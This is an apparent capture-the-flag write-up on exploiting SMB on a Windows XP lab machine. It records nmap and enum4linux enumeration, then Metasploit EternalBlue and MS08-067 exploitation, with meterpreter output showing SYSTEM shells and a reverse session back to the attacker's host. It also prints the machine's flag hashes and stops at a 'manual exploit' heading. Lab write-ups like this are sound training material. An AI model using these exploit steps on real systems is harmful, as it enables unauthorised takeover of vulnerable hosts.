 Today's focus will be identifying SMB vulnerabilities, enumerating shares users and configs, testing access, looking for valuable resources, and uploading a reverse shell if we find that there is write access.

Our goal is to gain a low privilege foothold by exploiting misconfigured or vulnerable SMB services manually, no automation tools like metasploit

SMB is commonly misconfigured, frequently exposes info like passwords, config files, up-loadable shares. Often allows guest or null session unauthenticated access, can read to a file upload reverse shell.

Using nmap to scan 445 SMB

```php
nmap -p 445 --script=smb-enum-shares,smb-enum-users,smb-os-discovery,smb-vuln* 10.129.227.181
```

We found these two common vulnerabilities from the scan

```php
Remote Code Execution vulnerability in Microsoft SMBv1 servers
CVE-2017-0143

Microsoft Windows system vulnerable to remote code execution
CVE-2008-4250
```

We found shares for `ADMIN$`, `C$`, `IPC$`

```php
enum4linux-ng 10.129.227.181
```

We found some version info on the machines OS

```php
OS: Windows 5.1
OS version: '5.1'
OS release: not supported
OS build: not supported
Native OS: Windows 5.1
```

Not too much useful info on `enum4linux`

```php
crackmapexec smb 10.129.227.181
```

From our output we find that SMB signing is not required 
I try to run `smbclient` but yield no results...
## CVE-2017-0143

The staged version of the exploit failed on us

```php
exploit(windows/smb/ms17_010_eternalblue)
[*] 10.129.227.181:445    - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.227.181:445 - The target is vulnerable.
[-] 10.129.227.181:445 - Exploit aborted due to failure: no-target: This module only supports x64 (64-bit) targets
[*] Exploit completed, but no session was created.
```

Non staged version landed us a shell

```php
exploit(windows/smb/ms17_010_psexec)
meterpreter > shell
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
```

We have gained a root shell on legacy

```php
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
## CVE-2008-4250
We have plenty of options

Landed us a shell on the system

```php
exploit(windows/smb/ms08_067_netapi)
[*] Meterpreter session 2 opened (10.10.14.209:4444 -> 10.129.227.181:1045) at 2025-06-02 07:30:55 -0400
meterpreter > 
```

We have gained a root shell on legacy

```php
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Exploring the directories we find the flags for user john and the administrator user

User John: `e69af0e4f443de7e36876fda4ec7644f`
User Admin: `993442d258b0e0ec917cae9e695d5713`

Okay now that we have gone the metasploit route lets do manual exploit

`MS08-067` Manual Exploit

